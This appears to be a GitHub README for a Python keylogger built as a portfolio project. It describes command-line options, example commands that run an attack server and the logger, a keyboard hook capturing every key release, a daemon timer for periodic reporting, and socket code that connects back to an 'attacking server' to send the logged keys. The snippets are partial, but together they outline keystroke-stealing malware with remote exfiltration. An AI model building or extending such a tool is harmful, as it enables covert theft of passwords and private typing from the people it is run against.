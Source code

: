 # Key_Logger_Socket
## Motivation
Build a portfolio for strong python and networking background
Develop a simple keylogger script with added remote connection feature using python socket module

## Usages
```
Usage:
 -i: interval time
 --ip: IP address of the listening server
 -m: method for report the logged key event
```
Example:
```
python Attack_SVR.py
python Key_Logger_Socket.py -i 5 --ip "localhost" -m "chat_svr"
```
### Note
<br>If no method specified, file_reporting will be used.

## Features
### Keyboard module
```
 keyboard.on_release(callback=callback)
```
<br>For every KeyUp events caught by on_release() method from keyboard class, calls the callback funcntion. Callback function would categorize the KeyUp event and populate the log variable. Using callback allow the next line of code to run without having to wait for the return values of on_release()</br>
### Daemon thread and periodic calling
```
timer = Timer(interval=self.interval, function=self.chat_svr_report)
timer.daemon = True
timer.start()
```
Daemon thread will be killed whenever the main thread (Keyboard) dies. Timer class from threading module will allow this function to call itself periodically every [interval] seconds.
### Network Connection
#### Initialize s socket to create a connection back to attacking server
```
 s = socket.socket(AF_INET,SOCK_STREAM)
```
#### On client side
```
 s.connect()
 s.send()
 s.close()
```
#### On server side
```
 s.bind()
 s.listen()
 s.accept()
```
